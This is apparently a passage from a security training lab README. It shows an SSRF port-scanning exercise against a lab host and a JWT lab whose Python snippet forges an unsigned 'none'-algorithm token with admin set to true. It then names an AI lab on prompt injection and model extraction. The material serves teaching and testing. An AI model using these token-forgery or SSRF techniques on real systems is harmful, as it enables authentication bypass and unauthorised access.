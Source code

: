 ##### Challenge 2: Internal Service Discovery
```
Objective: Discover and interact with internal services
Target: http://lab.local:8002/proxy
Technique: Port scanning through SSRF
```

### 🔑 JWT Security Testing Lab

#### Lab Overview
Comprehensive JWT security testing covering common vulnerabilities and attack vectors.

**JWT Vulnerabilities Covered:**
- Algorithm confusion attacks
- None algorithm bypass
- Weak secret brute forcing
- Key confusion attacks
- JWT header manipulation

#### Practical Exercises

##### Exercise 1: None Algorithm Attack
```python
# Modify JWT to use 'none' algorithm
import jwt
import json

# Original token
token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# Decode without verification
payload = jwt.decode(token, options={"verify_signature": False})
header = jwt.get_unverified_header(token)

# Modify header and payload
header['alg'] = 'none'
payload['admin'] = True

# Create new token
malicious_token = create_none_token(header, payload)
```

---

## 🚀 Advanced Labs

### 🤖 AI Security Testing Lab

#### Lab Overview
Cutting-edge AI security testing lab covering prompt injection, model extraction, and adversarial attacks.
